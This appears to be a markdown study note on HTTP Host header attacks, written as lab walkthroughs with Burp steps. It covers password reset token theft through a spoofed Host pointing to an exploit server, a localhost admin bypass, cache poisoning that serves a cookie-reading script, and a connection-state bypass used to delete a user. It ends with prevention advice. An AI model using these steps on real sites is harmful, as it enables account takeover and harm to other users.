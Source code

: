 # Web-app-testing-list

## HTTP Host header attacks =======================================  
We visit https://example.com/security, browser will compose a request containing a Host header:
> GET /security HTTP/1.1  
> Host: example.com  

The purpose of the HTTP Host header is to help identify which back-end component the client wants to communicate with and route request to right application.  
* Possible scenario is when a single web server hosts multiple websites or applications.
* When websites are hosted on distinct back-end servers and all traffic between the client and servers is routed through an intermediary system like load balancer or  reverse proxy server (they need to know on which back-end server to route requests). This setup is especially prevalent in cases where clients access the website via a content delivery network (CDN).

Problem is when server implicitly trusts the Host: header, and fails to validate or escape it properly  

### Password reset poisoning
Changing header Host: from legit to our malicious domain to obtain password reset link which include the unique reset token.   
1.) In Burp "POST /forgot-password" request body change the username parameter and change the Host: header to your exploit server's domain name  
2.) In malicious servers access.log obtain reset token  
3.) In Burp use our acc genuine password reset link from email, but change token parametre in URL.  
>/forgot-password?temp-forgot-password-token=S0j4fkc7y9M9AgAPXu8kDsNG1pT9kPZ4    

### Host header authentication bypass - change "Host: localhost"
If we can change Host: header to any value and still successfully access the home page.  
1.) robots.txt includes an /admin.  
2.) We cant access /admin, theres error message "Admin interface only available to local users"  
3.) In Burp change Host: header to localhost  
> Host: localhost  

### Web cache poisoning via Host: header
To reduce latency cache sits between the back-end server and the user where it saves (caches) the responses to particular requests, usually for a fixed amount of time. If another user sends equivalent request, cache simply serves a copy of the cached response w/o interfering with back-end server.
If an input is reflected in the response from the server without being properly sanitized, or is used to dynamically generate other data, then this is a potential entry point for web cache poisoning. Next step is to make cache server to save our malicious request! 

1.) GET request response with Cache header, also tampering with Host: header doesnt load website.
> Cache-Control: max-age=30  
> X-Cache: miss  

2.) Identifying unkeyed inputs that server supports with Burp Comparer or Param Miner (on live website, risk is that cache might serve our generated responses to real users, therefore make sure that our requests all have a unique cache key so that they will only be served to you.). Host: header is parameter in this case.  
3.) Add second Host: header and send 
>Host: test.test.com   

Response contains our test code in: "<script type="text/javascript" src="//test.test2.com/resources/js/tracking.js"></script>" and X-Cache: miss, send again till get X-Cache: hit, means its saved in cache for 30sec!:
> X-Cache: miss  
> EX-Cache: hit  

4.) Create malicious domain where store your exploit.
Back in Burp Repeater, add a second Host header containing your exploit server domain name

> GET /?cb=123 HTTP/1.1  # "?cb=123" is random, used as unique cache key that we know  
> Host: realwebsite.net  
> Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net  

Exploit file: /resources/js/tracking.js and body alert(document.cookie)

### Routing-based SSRF - Host header SSRF attacks

Cloud-based architectures, load balancers and reverse proxies receive requests and forward them to the appropriate back-end. If they are insecurely configured to forward requests based on an unvalidated Host header, they can be manipulated into misrouting requests.

### Host validation bypass via connection state attack
Poorly implemented HTTP server settings state that Host: header, are identical for all HTTP/1.1 requests. Or servers that only perform thorough validation on the first request they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection.

We know that server ip 192.168.0.1 is located /admin panel  
1.) Make the following adjustments:  
> Change the path to /admin.  
> Change Host header to 192.168.0.1.  

Send GET request. Observe that you are simply redirected to the homepage  
2.) send original / and changed /admin requests to Repeater.  
3.) Change Connection: from close to keep-alive # allows a single TCP connection to remain open for multiple HTTP requests/responses  
4.) click on + near tab names -> Create new group add both requests -> dropdown, Send group single connection  
5.) Obtain data from response:  
 > action='/admin/delete'  
 > input required type='text' name='username'  
 > name="csrf" value="yqPYeZm1xcEgnilkxPXRkfhsTc5CNRFQ"  
 
 6.) On /admin tab: delete all entries, leaving cookie, host and POST, change request to POST, change values and send, so it deletes username.  
> Content-Type: x-www-form-urlencoded  
> Content-Length:57  
> csrf=yqPYeZm1xcEgnilkxPXRkfhsTc5CNRFQ&username=carlos  




### Routing-based SSRF - Host header SSRF attacks

----------------------
How to prevent HTTP Host header attacks
To prevent HTTP Host header attacks, the simplest approach is to avoid using the Host header altogether in server-side code. Double-check whether each URL really needs to be absolute. You will often find that you can just use a relative URL instead. This simple change can help you prevent web cache poisoning vulnerabilities in particular.

### Prevent HTTP Host header attacks:

Protect absolute URLs
When you have to use absolute URLs, you should require the current domain to be manually specified in a configuration file and refer to this value instead of the Host header. This approach would eliminate the threat of password reset poisoning, for example.

Validate the Host header
If you must use the Host header, make sure you validate it properly. This should involve checking it against a whitelist of permitted domains and rejecting or redirecting any requests for unrecognized hosts. You should consult the documentation of your framework for guidance on how to do this. For example, the Django framework provides the ALLOWED_HOSTS option in the settings file. This approach will reduce your exposure to Host header injection attacks.

Don't support Host override headers
It is also important to check that you do not support additional headers that may be used to construct these attacks, in particular X-Forwarded-Host. Remember that these may be supported by default.

Whitelist permitted domains
To prevent routing-based attacks on internal infrastructure, you should configure your load balancer or any reverse proxies to forward requests only to a whitelist of permitted domains.

Be careful with internal-only virtual hosts
When using virtual hosting, you should avoid hosting internal-only websites and applications on the same server as public-facing content. Otherwise, attackers may be able to access internal domains via Host header manipulation.




















































